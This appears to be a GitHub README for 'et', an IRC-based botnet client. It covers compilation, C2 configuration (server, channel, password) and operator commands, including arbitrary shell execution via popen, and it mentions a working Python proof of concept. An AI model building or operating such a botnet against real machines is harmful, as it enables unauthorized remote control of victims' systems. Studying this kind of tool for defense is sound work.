 et - the extraterrestrial botnet
===

### What is it?
`et` is a dumb client to an IRC command-and-control server.

When activated, it "phones home" and awaits instructions from members of an IRC channel.

It can be instructed to retrieve system information and execute commands, among other things.

### Compilation

#### On *nix systems (Linux, BSD, OS X):
```bash
$ git clone https://github.com/woodruffw/et && cd et
$ make nix # compiles et in ./bin
```

#### On Windows:
Building on Windows requries `make` and `gcc`, both of which can be obtained through the [MinGW](http://www.mingw.org/) project.

Download the tarball, extract it somewhere, and run `mingw32-make` inside of that directory in CMD.exe. The `et.exe` binary will be left in "bin".


*IMPORTANT*: Do not actually run the resulting `et` binary, as it *WILL* connect you to the default server and open your computer to attack.

### Configuration

Many of `et`'s features can be configured in the *cnc_info.h* file under *./src*.

For example:
`#define IRC_SERVER "irc.example.com"`
`#define IRC_PORT 6667`
`#define IRC_CHANNEL "#yourchannel"`
`#define IRC_REPORT "hello!"`
`#define IRC_AUTH "super secret password"`

Any changes made require recompilation.

### Usage
Controlling the `et` bots from the IRC server is very simple.

When each bot connects, it sends out a channel-wide message of the format:
```
et0000000: et0000000 phoning home
```

From that point on, the bot is ready to receive commands. There are four built-in commands:
* `auth <password>` - Requests authorization to control the bot. If the password matches `IRC_AUTH` in *cnc_info.h*, authorization is granted.
* `deauth` - Deauthorizes control of the bot unconditionally. Once deauthorized, the bot may not execute any command but `auth`.
* `info` - Outputs a digest of system information. Supplied by `uname(3)` on Unix and Linux and `GetVersionEx` on Windows.
* `kill` - Disconnects the bot from the IRC server. Unless scheduled otherwise on the system, the bot will never reconnect.

Aside from these four commands, all other commands passed to an `et` are passed directly to `popen(3)` (`_popen()` on Windows).

By default `deauth`, `info`, `kill`, and all other commands are restricted until the bot is authorized with `auth`.

Some examples, all from the IRC prompt:
```
et0000000: et0000000 phoning home
/msg et0000000 auth et-phone-home
et0000000: Successfully authorized. et0000000 listening.
/msg et0000000 info
et0000000: some information
/msg et0000000 pwd
et0000000: the current working directory
/msg et0000000 kill
*et0000000 has quit ()
```

Currently, output from system commands is limited to approximately 512 characters. 

### Proof of Concept
The original PoC Python script can be found under *./src/poc/et.py*. Like the actual version, it does work and *WILL* expose your machine.

### Theoretical Limits
Because the IRC protocol limits nicks to 9 characters, only so many `et`s can operate within a single channel.

By default, the first two characters of an `et`'s nick will always be 'et,' meaning that at most 10 million `et`s can exist within a channel.
Furthermore, because I got lazy with the Windows version, the ID on Windows machines can only be in the range [0, (32768 << 8)] for a total number of 8,388,609 possible IDs on Windows.
Of course, because the trailing numbers are pseudorandom and not sequential, the actual point of collision is likely to be much lower than 10 million (or 8,388,609 for that matter).
On the other hand, `et` can be configured to "phone home" to other servers and channels, making the limit less relevant in practice.

### TODO
* Limit message output to 510 characters (+ CR-LF) as per RFC 2812
* Prevent Windows CMD popups
* Add more built-in commands

### Contributing

`et` is licensed under the MIT licence. 

Please feel free to issue merge requests, even for small things. I appreciate all contributions.